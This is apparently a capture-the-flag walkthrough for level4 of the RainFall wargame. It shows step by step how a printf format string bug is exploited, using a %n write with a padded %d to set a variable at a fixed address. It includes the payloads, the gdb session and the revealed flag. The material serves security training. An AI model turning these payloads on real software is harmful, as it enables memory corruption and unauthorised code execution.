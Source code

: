 # Walkthrough level4

Here this is a format string exploitation but the value to write is bigger. We
want to write 0x1025544 in the address 0x8049810. First thing try to locate
where is located the begining of our buffer:

```bash
level4@RainFall:~$ python -c "print('AAAA' + '%08x ' * 20)" | ./level4
AAAAb7ff26b0 bffff784 b7fd0ff4 00000000 00000000 bffff748 0804848d bffff540 00000200 b7fd1ac0 b7ff37d0 41414141 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078
```

Buffer start 11 addresses further. So we can write something in the address:

```bash
(gdb) r < <("print('\x10\x98\x04\x08' + '%08x ' * 11 + '%n')")
(gdb) disas
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    eax,ds:0x8049810
=> 0x08048492 <+59>:    cmp    eax,0x1025544
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
End of assembler dump.
(gdb) p $eax
$2 = 103
```

We can write in the variable we want but we need to write a big value.
To do this we can use the `%Xd` specifier, it print the number with X
characters so if we do `%100d` printf will print 100 characters.
To do this we need to go one address below because `%d` consume an address:

```bash
(gdb) r < <(python -c "print('\x10\x98\x04\x08' + '%08x ' * 10 + '%100d%n')")
(gdb) p $eax
$4 = 194
```

Now we can do the same thing but write the value:
> 0x1025544 (16930116 in decimal) - 94 (characters already printed) = 16930022

```bash
level4@RainFall:~$ python -c "print('\x10\x98\x04\x08' + '%08x ' * 10 + '%16930022d%n')" > /tmp/a
level4@RainFall:~$ cat /tmp/a - | ./level4
(...)
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
